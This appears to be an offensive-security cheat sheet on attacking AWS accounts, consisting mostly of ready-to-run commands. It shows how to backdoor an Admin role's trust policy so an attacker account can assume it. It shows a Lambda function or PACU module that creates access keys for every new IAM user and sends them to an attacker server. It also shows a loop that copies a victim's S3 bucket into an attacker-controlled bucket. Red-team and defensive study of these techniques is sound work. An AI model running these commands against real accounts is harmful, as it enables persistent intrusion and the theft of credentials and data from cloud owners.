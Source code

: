 10. Backdooring role trust relationship
- Usefull as we can realize cross-account trust relationship and give permission directly to our own attacker account.
- The most important is to find a suitable target role
```
aws iam update-assume-role-policy --role-name Admin --policy-documentfile://trust-policy.json --profile Test
```
	
--> Confirming access:
```
aws sts assume-role --role-arn arn:aws:iam::111111111111:role/Admin --role-session-name PersistenceTest --profile attackerProfileAccount
```

OR
```
iam__backdoor_assume_role (PACU)
```

11. Using Lambda
Using lambda we can exfiltrate credentials
--> Lambda function will be trigger on every new user creation to add a new set of access keys to that user, then exfiltrates thosecredentials to a server we specified  
- The attacker creates a malicious Lambda function in a target account1.
- The attacker creates a trigger to run the Lambda function every time a new IAM user is created
- The attacker sets up a listener on a server that they control, which will wait for credentials
- New user is created within the environment
- The attacker's Lambda function is triggered
- The function adds a set of access keys to the newly created user
- The function makes an HTTP request to the attacker's server with the access key just created

--> Lambda adds to the equation is the ability to do persistent in continuously manner.
--> For a function to trigger an event 
	- CloudWatch event rule must be created
	- Also need cloudtrail to be enabled in **us-east-1** region
		--> Because function is triggered by an IAM event (*iam:CreateUser*), and IAM events are only delivered to **us-east-1** CloudWatch Events.

--> **OR** use PACU module : *lambda__backdoor_new_users*
```
run lambda__backdoor_new_users --exfil-urlhttp://attacker-server.com/
run lambda__backdoor_new_users --cleanup
```

<br/>

## Credential Access
#### Cloud Shadow Copy 
Cloud version of the Shadow Copy attack against domain controllers running in AWS
- https://github.com/Static-Flow/CloudCopy

## Exfiltration
#### S3 Streaming Copy
- https://hackingthe.cloud/aws/exploitation/s3_streaming_copy/
```
for files in $(cat filesBuckets.txt); do aws s3 cp --profile victim-greg.alvin s3://XXXX-production-deployment/$files - | (aws s3 cp --profile attacker-bell - s3://recept-external-bucket/$files ); done
```
